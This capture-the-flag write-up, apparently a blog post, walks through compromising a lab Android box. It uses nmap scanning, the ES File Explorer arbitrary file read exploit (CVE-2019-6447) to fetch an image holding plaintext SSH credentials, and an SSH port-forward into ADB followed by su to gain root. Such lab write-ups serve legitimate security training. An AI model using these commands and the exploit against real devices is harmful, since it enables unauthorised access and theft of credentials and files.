 ```yaml
---
title: "My Important post"
date: 2020-09-15T11:30:03+00:00
weight: 1
---
```


We start with a nmap scan

all ports nmap (cut):
```bash
$ nmap -p- 10.10.10.247                     
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

---

nmap with scripts on the open ports (cut): 

```bash
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

None of the ports's can be visited from the web, except the port `59777` but that leads to a page that says forbidden. According to the nmap results, there probably is a minecraft server behind that port, so nothing too intresting there.

The only lead we have is port 42135, let's look further into it. 

---

Running searchsploit we get multiple hits, the first one that comes up seems to be the best for us, since the rest don't have the correct name. `ES File Explorer 4.1.9.7.4 - Arbitrary File Read `

---

```bash
$ searchsploit -m android/remote/50070.py
```


Looking at the code we can see a proxy rule, `proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}`
The proxy variable is already set to the burpsuit proxy listener's port. We just need to add the proxy argument to the `requests.post` in the `httPost()` function. We can do that by adding `proxies=proxy` to the command so we get the following line:
```python
response = requests.post(url, headers=header, data=data, proxies=proxy)
```

We can run the program with the following arguments: `python3 50070.py listFiles 10.10.10.247`. We can look at our captured burp request to see what happened. 


```http
POST / HTTP/1.1
Host: 10.10.10.247:59777
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 24

{"command": "listFiles"}
```

The exploit script is making a POST request to the ES File Explorer service with a command. We specified the listFiles command previously. 
When forwarding the request we get a list of files, which seem to be on an android system. 

While trying out a few commands from the exploit script, I stumble upon the command `listPics`. This command lists all the pics found by the ES file explorer. We see one intresting file named `creds.jpg`. We can retrieve this file by selecting the getFile command:
```bash
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

we move the `out.dat` file to creds.jpg by executing the `mv out.dat creds.jpg` command. When opening the image we see credentials for the account kristi. 
`kristi:Kr1sT!5h@Rp3xPl0r3!`
We try the credentials on ssh, port 2222

```bash
ssh -p 2222 kristi@10.10.10.247                                                                                                                                                                                                    127 ⨯
Password authentication
Password: 
:/ $ 
```
The credentials are correct and we get a shell.

---

After some googling on this file system I found this: https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands#port-tunneling

netstat exists on ADB (which is in what we are right now, an android debugging tool of some sort). 

```bash
netstat -tuln                                                         
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:35209 :::*                    LISTEN     
tcp6       0      0 ::ffff:127.0.0.1:44971  :::*                    LISTEN     
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60104 ESTABLISHED
tcp6       0      0 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60102 ESTABLISHED
udp        0      0 10.10.10.247:21625      1.0.0.1:53              ESTABLISHED
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 10.10.10.247:27908      1.1.1.1:53              ESTABLISHED
udp        0      0 0.0.0.0:33083           0.0.0.0:*                          
udp6       0      0 ::ffff:10.10.10.2:43574 :::*                               
udp6       0      0 :::1900                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::49675                :::*
```

We see that port 5555 is listening and that we couldn't find in the nmap scan. Let's try to connect to that port.
Since we can't access it from outside the box, let's go trough the inside and port forward it. 

```bash
ssh -p 2222 kristi@10.10.10.247 -L 5555:127.0.0.1:5555
Password authentication
Password: 
:/ $
```
It appears that we just connected to the shell, we have in a matter of fact. But we've also port forwarded the port 5555 on the box to port 5555 on our local machine. 
We can now connect to the port using adb connect localhost:5555
We connect first: `adb connect 127.0.0.1:5555`
Then we spawn a shell: `adb -s 127.0.0.1:5555 shell`
After connecting, we can run the command `su` to get root privileges.
```bash
x86_64:/ $ su
:/ # whoami
root
```

---

The user flag is located in `/mnt/user/0/primary`
The root flag is located in: `/data/root.txt`

That was all! Quite an easy box, but still a challenge researching about the ADB. Thanks for reading!

- Crunch#8996
